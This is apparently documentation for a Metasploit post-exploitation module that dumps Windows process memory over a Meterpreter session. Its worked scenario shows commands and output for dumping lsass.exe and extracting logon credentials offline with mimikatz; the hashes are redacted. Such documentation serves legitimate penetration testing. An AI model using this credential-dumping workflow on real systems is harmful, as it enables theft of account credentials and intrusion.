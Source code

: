 ## Vulnerable Application

This module dumps the memory for any process on the system and retrieves it for later analysis.
The user must have sufficient permissions to read the memory of that process. Low-privilege users
should be able to read any of their own processes. High-privilege users should be able to read 
any unprotected process.

This module only works on a Meterpreter session on Windows.

## Verification Steps

  1. Start `msfconsole`
  1. Get meterpreter session on a Windows host
  1. Do: `use post/windows/gather/memory_dump`
  1. Do: `set SESSION <session id>`
  1. Do: `set PID <process id>`
  1. Do: `set DUMP_PATH <path on remote system>`
  1. Do: `set DUMP_TYPE <standard|full>`
  1. Do: `run`
  1. You should be able to see that the module has dumped the process to a file and starts downloading it.
  1. You should be able to see, whether the module succeeds or fails, that the file on the remote system has been deleted.

## Options

### DUMP_PATH

The path that the memory dump will be temporarily stored at. This file is then downloaded and deleted at the end of the run. This file should be in a writable location, and should not already exist.

### PID

The ID of the process to dump. To find the PID, in your Meterpreter session, type `ps`. To find a process by name, type `ps | <process name>`.

### DUMP_TYPE

Two options are provided for creating a memory dump:

- Full

This option retrieves the entire memory address space, including all DLLs, EXEs and memory mapped files. For dumping LSASS for offline analysis, this option seems to be preferable. However, the file size can be significantly larger than the Standard option.

- Standard

This option retrieves most data from the process, with the exception of DLLs, EXEs and memory mapped files. As a result, some analysis tools may have trouble with automated analysis, however any sensitive information such as passwords which are stored in memory should be part of this dump. This data could possibly be retrieved using a tool such as `strings`. The file size should be significantly smaller than the Full option.

## Scenarios

**Dumping lsass**

Retrieving lsass (after getsystem)

```
meterpreter > ps | lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User                 Path
 ---  ----  ----       ----  -------  ----                 ----
 700  536   lsass.exe  x64   0        NT AUTHORITY\SYSTEM  C:\Windows\System32\lsass.exe

meterpreter > 
Background session 4? [y/N]  
msf6 post(windows/gather/memory_dump) > set pid 700
pid => 700
msf6 post(windows/gather/memory_dump) > run

[*] Running module against DemoPC
[*] Dumping memory for lsass.exe
[*] Downloading minidump (5.31 MiB)
[+] Memory dump stored at /home/user/.msf4/loot/20210505174955_default_192.168.XXX.XXX_windows.process._647943.bin
[*] Deleting minidump from disk
[*] Post module execution completed
```

Then in mimikatz (offline):

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 18 2020 19:18:29
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # sekurlsa::minidump c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin
Switch to MINIDUMP : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin'

mimikatz # sekurlsa::logonPasswords
Opening : 'c:\Users\user\desktop\20210505175519_default_192.168.XXX.XXX_windows.process._162777.bin' file for minidump...

Authentication Id : 0 ; 280858 (00000000:0004491a)
Session           : RemoteInteractive from 2
User Name         : user
Domain            : DemoPC
Logon Server      : DemoPC
Logon Time        : 5/05/2021 3:15:10 PM
SID               : S-1-5-21-920577323-754201681-977916534-1001
        msv :
         [00000003] Primary
         * Username : user
         * Domain   : DemoPC
         * NTLM     : (redacted, but verified)
         * SHA1     : (redacted)
        tspkg :
        wdigest :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        kerberos :
         * Username : user
         * Domain   : DemoPC
         * Password : (null)
        ssp :
        credman :
        cloudap :
```


